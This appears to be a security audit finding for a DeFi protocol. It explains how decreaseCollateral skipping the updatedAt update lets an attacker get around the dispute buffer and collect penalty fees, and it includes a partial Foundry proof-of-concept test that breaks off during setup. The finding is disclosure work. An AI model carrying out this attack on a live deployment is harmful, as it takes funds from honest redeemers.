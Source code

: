 To avoid malicious disputers the system invented a `DISPUTE_REDEMPTION_BUFFER` that should prevent users from disputing with a SR that was created/modified `<=` 1 hour before the redemption proposal was created:

```solidity
if (disputeCR < incorrectProposal.CR && disputeSR.updatedAt + C.DISPUTE_REDEMPTION_BUFFER <= redeemerAssetUser.timeProposed)
```

But not every function that modifies a SR updates the `updatedAt` param. This enables the possibility for an attacker to dispute a valid redemption proposal by modifying a SR after the proposal so that the proposer does not have the chance to create a correct proposal.

The `decreaseCollateral` function does not update the `updatedAt` param and therefore, the following attack path is enabled:

- `initialCR` of the given asset is set to 1.7 (as in the docs) and the max redemption CR is 2 (constant).
- User creates a valid redemption proposal where the SRs have a CR above the `initialCR`.
- The attacker owns a SR with a CR above the ones in the proposal.
- The attacker decreases the CR of the own SR to the `initialCR`, disputes the redemption to receive the penalty fee, and increases the CR back up in one transaction.

### Proof of Concept

The following POC can be implemented in the `Redemption.t.sol` test file:

```solidity
function test_decrease_cr_dispute_attack() public {
    // add import {O} from "contracts/libraries/DataTypes.sol"; to the imports to run this test

    // create three SRs with increasing CRs above initialCR

    // set initial CR to 1.7 as in the docs
    vm.startPrank(owner);
    diamond.setInitialCR(asset, 170);

    uint80 price = diamond.getOraclePriceT(asset);

    fundLimitBidOpt(price, DEFAULT_AMOUNT, receiver);

    depositEth(sender, price.mulU88(DEFAULT_AMOUNT).mulU88(100e18));

    uint16[] memory shortHintArray = setShortHintArray();
    MTypes.OrderHint[] memory orderHintArray = diamond.getHintArray(asset, price, O.LimitShort, 1);
    vm.prank(sender);
    diamond.createLimitShort(asset, price, DEFAULT_AMOUNT, orderHintArray, shortHintArray, 70);

    fundLimitBidOpt(price + 1, DEFAULT_AMOUNT, receiver);

    shortHintArray = setShortHintArray();
    orderHintArray = diamond.getHintArray(asset, price, O.LimitShort, 1);
    vm.prank(sender);
    diamond.createLimitShort(asset, price, DEFAULT_AMOUNT, orderHintArray, shortHintArray, 80);

    fundLimitBidOpt(price + 2, DEFAULT_AMOUNT, receiver);

    shortHintArray = setShortHintArray();
    orderHintArray = diamond.getHintArray(asset, price, O.LimitShort, 1);
    vm.prank(sender);
    diamond.createLimitShort(asset, price, DEFAULT_AMOUNT, orderHintArray, shortHintArray, 100);

    skip(1 hours);

    STypes.ShortRecord memory sr1 = diamond.getShortRecord(asset, sender, C.SHORT_STARTING_ID);
    STypes.ShortRecord memory sr2 = diamond.getShortRecord(asset, sender, C.SHORT_STARTING_ID+1);
    STypes.ShortRecord memory sr3 = diamond.getShortRecord(asset, sender, C.SHORT_STARTING_ID+2);
```